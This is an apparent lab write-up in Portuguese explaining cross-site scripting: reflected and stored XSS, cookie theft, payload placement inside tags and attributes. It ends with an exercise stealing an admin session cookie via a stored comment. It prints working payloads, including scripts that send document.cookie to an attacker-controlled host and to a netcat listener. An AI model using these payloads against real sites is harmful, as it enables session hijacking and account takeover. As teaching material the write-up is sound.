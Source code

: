 # _**Contexto de páginas web**_
As páginas da web são compostas por 3 componentes comuns:
* HTML - é a sintaxe usada para definir o conteúdo e a estrutura de uma página web.
* CSS - é a linguagem usada para projetar e estilizar o conteúdo da página web.
* Javascript - é a linguagem usada para fornecer interatividade e animação a uma página web.

A maior parte do código Javascript é encontrada dentro de: <script></script>  
Estas tags em uma página web  
O código JavaScript é adicionado diretamente entre essas tags ou é chamado em um arquivo usando o atributo src dentro da tag de script de abertura, por exemplo: <script src=’location-to-file’></script>  
Em geral, o JavaScript dentro das tags de script é sempre executado quando a página é carregada  

Um dos outros locais onde o JavaScript pode ser adicionado são os atributos dentro de outras tags HTML  
Por exemplo:  <a href=’/link’ onclick=’code-here’>  
Esta tag HTML abre um link, mas o atributo onclick executa o código JavaScript quando o texto especificado pela tag HTML é clicado  
A execução do JavaScript no atributo depende do atributo, por exemplo, onload só executará JavaScript quando o elemento for carregado  

Muitos sites exigem a participação do usuário  
Isso inclui tudo, desde adicionar posts a um formulário até adicionar um valor em uma transferência bancária  
Vimos que sites exigem Javascript para funcionar corretamente  
Um usuário mal-intencionado poderia facilmente injetar JavaScript em uma página e executar ações maliciosas  
Esse tipo de ataque é chamado de XSS; _Cross Site Scripting_  

**Reflected XSS**  
XSS refletido ocorre quando JavaScript arbitrário é refletido de um servidor (e não é permanente)  
Isso ocorre em cenários como páginas de erro e links onde o payload é passado como uma solicitação e também incluído na resposta  
O caso mais comum é quando um invasor envia uma URL contendo um payload malicioso para a vítima  
A vítima clica nesse URL e o payload é executado (exploraremos exatamente o que podemos fazer com um payload Javascript)  

**Stored XSS**
XSS armazenado ocorre quando JavaScript arbitrário é armazenado em um banco de dados e esse JavaScript é recuperado e exibido ao usuário  
Isso tende a ser mais perigoso do que XSS refletido, pois o payload é automaticamente passado (e até executado) ao usuário  

O JavaScript é muito poderoso e um invasor pode fazer muitas coisas com ele:
* **Roubar cookies de sessão:** Isso permitiria que um invasor acessasse a conta de um usuário
* **Escrever Keyloggers:** Isso permitiria que um invasor extraísse informações confidenciais de um usuário, como detalhes de cartão de crédito
* **Spam em geral:** Um invasor pode ser apenas um incômodo e arruinar a experiência do usuário com um site, manipulando vários elementos da página e muito mais

Executar esse payload sozinho não seria benéfico para um invasor  
Ele conseguiu acessar o cookie, mas como poderia recuperá-lo?  
Um método comum é redirecionar um usuário para um domínio que inclua o cookie como parâmetro  
Isso é feito usando: <script>window.location = ‘attacker-web-site.com/page?param=’ + document.cookie </script>  

Aqui, _window.location_ redireciona o usuário para o site controlado pelo invasor e passa o cookie como parâmetro  
O invasor pode então acessar o log do servidor, recuperar esse cookie e efetuar login como o usuário  
Esta não é a única maneira de recuperar o cookie:
* Faça uma solicitação HTTP XML para um domínio controlado por um invasor: Isso é mais furtivo, pois você não precisa redirecionar o usuário para uma página diferente.
* Torne o cookie visível para um invasor: Se você conseguir obter XSS em algum tipo de fórum/mensagem, poderá recriar a solicitação usada para adicionar dados a essas páginas

Assim que um invasor visitar essas páginas, ele poderá simplesmente visualizar o cookie  

***

**Requisições**  
Como mencionado acima, extrair um cookie usando uma solicitação é bastante comum  
Essas solicitações podem ser GET ou POST e geralmente são feitas usando AJAX (Javascript Assíncrono)  
Isso funciona bem porque o AJAX pode interagir com um servidor em segundo plano (não há necessidade de atualizar ou recarregar uma página)  

Ao injetar esse payload em uma página, não conseguiremos separá-los como mostrado acima  
Então, colocaríamos tudo em uma linha, por isso o ponto e vírgula no final de cada linha é importante  
Ponto e vírgula é usado para indicar que uma solicitação foi concluída  

Antes de fazer uma chamada AJAX, é importante saber o formato da solicitação  
Você pode ver exatamente o que está envolvido em uma solicitação usando o Burp  
Como alternativa, você pode abrir a ferramenta de desenvolvimento e manter a aba de rede aberta para executar a solicitação  

***

**Encontrando XSS**  
Seu payload pode ser adicionado a diferentes aspectos de uma página  
Um aspecto comum é entre as tags HTML  
Por exemplo, imagine que um nome de usuário seja adicionado dentro das tags de parágrafo, como: <p> username </p>  

Enquanto digitar <script></script> pode funcionar  
Queremos fechar as tags de parágrafo. Poderíamos usar o payload: </p><script>alert(document.cookie);</script><p>hi  
Quando isso for adicionado à página, o HTML ficará assim: <p></p><script>alert(document.cookie);</script><p>hi</p>  

Insira links e a página os renderizará desta forma: <a href=’link’></a>  
Para garantir que nosso JavaScript seja executado corretamente, precisamos adicionar um atributo, mas adicionar um payload imediatamente significaria que ele estaria entre aspas simples, então não seria executado:  <a href=’link + payload’></a>  

Então, o payload correto ficaria assim: link‘ onclick=’alert(1);  
Que é então inserido da seguinte forma: <a href=’link‘ onclick=’alert(1);’></a>  

# _**Execução**_  
Fazendo login no site com o endereço IP, observe que não existe filtro para os comentários  
Com a ferramenta netcat escutando na porta 80 (HTTP) e baseando-se no script abaixo, monte-se um similar para buscar o cookie de administrador  

<script>window.location = ‘attacker-web-site.com/page?param=’ + document.cookie </script>  

<script>window.location = ‘http://[ip_address]:3000/?=’ + document.cookie </script>  

![](xss_script_return.jpg)
